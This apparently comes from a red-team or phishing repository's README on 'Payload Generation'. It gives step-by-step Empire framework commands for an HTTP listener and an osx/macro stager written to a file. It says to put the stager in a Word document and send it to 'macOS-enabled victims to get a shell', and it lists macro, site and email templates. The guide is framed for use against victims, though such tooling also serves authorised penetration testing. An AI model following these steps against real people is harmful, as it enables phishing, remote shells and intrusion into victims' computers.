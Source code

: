 # Payload Generation
---
### Empire
It's very easy to generate shell stagers/payloads with Empire. You can create office macros, DDE'd word documents, applescript, and a heap more.
##### General process is as follows:
###### Create a listener:
Enter the listeners menu: `listeners`

Choose a listener to create: `uselistener http` - Press <TAB> to see more than just http

View your listener info: `info`

_Note that you can add certs for communication over TLS_

And change accordingly: `set Name acmeHTTP`

Execute your listener: `execute`
###### Create a stager that uses the newly created listener:
`main` to go to the main menu.

Pick a payload: `usestager osx/macro` - press <TAB> to view the plethora of other payloads

You can view the info of a stager by typing `info`

Specify the stager to use the created listener: `set Listener acmeHTTP`

Set the OutFile of your payload (unless stdout is fine with you): `set OutFile /tmp/acmeOSXMacro`

Chuck that in a Word document and send it to your macOS-enabled victims to get a shell.

### Msfvenom
**RTFM.**

#### File list
| File | Description |
|------|-------------|
|xplatform.txt | cross-platform macro outline. Host document must be created on Windows |
|Site Templates | ??? |
|Email Templates | ??? |
